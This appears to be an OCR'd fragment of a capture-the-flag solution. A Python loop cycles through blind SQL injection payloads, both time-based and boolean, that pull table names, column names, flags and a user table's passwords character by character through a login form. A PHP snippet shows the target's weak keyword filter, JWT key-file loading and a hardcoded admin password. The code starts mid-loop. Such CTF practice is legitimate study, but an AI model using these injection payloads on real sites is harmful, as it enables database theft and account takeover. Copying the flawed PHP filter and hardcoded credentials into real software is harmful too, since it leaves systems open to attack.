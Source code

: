 ```python

        #payload="' or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))<{},sleep(0.02),1)#".format(i,j)
        #payload="' or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag233333'),{},1))<{},sleep(0.02),1)#".format(i,j)
        #payload="' or if(ascii(substr((select group_concat(flagass233) from flag233333),{},1))<{},sleep(0.02),1)#".format(i,j)
        #payload="-1'||if(ascii(substr(database(),{},1))<{},1=1,1=2)#".format(i,j)
        #payload="-1'||if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))<{},1=1,1=2)#".format(i,j)
        #payload="-1'||if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='words'),{},1))<{},1=1,1=2)#".format(i,j)
        #payload="-1'||if(ascii(substr((select group_concat(flag) from `1919810931114514`),{},1))<{},1=1,1=2)#".format(i,j)
        payload="0'||if(ascii(substr(((select group_concat(pwd) from user)),{},1))<{},sleep(1),1)#".format(i,j)
        #print(payload)
        #params = {
        #    "id":payload
        #}
        data={
            "username":payload,
            "pwd":1
        }
        try:
            r = requests.post(url=url,data=data,timeout=1)
            min = j
        except:
            max = j
        sleep(0.1)
"hw2fckci2F2md2FFA4"
"jw2ddkci2F2md2FFA4"
```

```
<?php
//error_reporting(E_ALL);

function waf($input){
    $check = preg_match('/into/i', $input);
    if ($check) {
        exit("hackkk!!!");
    }
    else {
        return $input;
    }
}
require_once 'vendor/autoload.php';
use Firebase\JWT\JWT;
$fff = fopen(".rsa_private_key.pem",'rb');
$rsa_private_key = fread($fff,filesize(".rsa_private_key.pem"));

$fff2 = fopen(".rsa_public_key.pem","rb");
$rsa_public_key = fread($fff2,filesize(".rsa_public_key.pem"));
$username = @$_POST['username'];
$password = @$_POST['pwd'];

$payload = array(
    "name" => "admin",
    "pwd" => "jw2fdkci2F2md2FFA4",
    "isadmin" => true,
    //"isadmin" => false,
);

```